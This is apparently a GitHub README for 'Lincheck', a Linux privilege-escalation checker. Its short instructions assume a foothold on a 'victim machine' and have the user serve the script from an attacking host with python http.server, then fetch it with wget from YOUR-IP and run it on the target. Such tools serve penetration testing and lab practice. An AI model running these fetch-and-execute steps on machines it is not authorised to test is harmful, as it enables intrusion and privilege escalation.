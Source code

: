 # Lincheck
This is a linux privilledge escilation checker tool that checks for common linux priviledge escilation techniques.

Once you have get a initial foothold on a target machine than you can transfer this linux script on to the victim machine with python http server.

<h2>In Your Attacking Machine</h2> 

<code>git clone https://github.com/Vivek170952/Lincheck.git </code></br>

<code>cd Lincheck </code></br>

<code>python -m http.server 4444 </code></br>

<h2>In Your Victim Machine</h2>

<code>wget http://YOUR-IP:4444/linprivcheck.sh  </code></br>

<code>chmod +x linprivcheck.sh </code></br>

<code>./linprivcheck.sh</code></br>

This tool will save your lots of time inenumeration of machine and gives result in a good format.


https://user-images.githubusercontent.com/87767132/233546141-82fea8cb-db3a-4540-98c8-cb48c29588e5.mp4

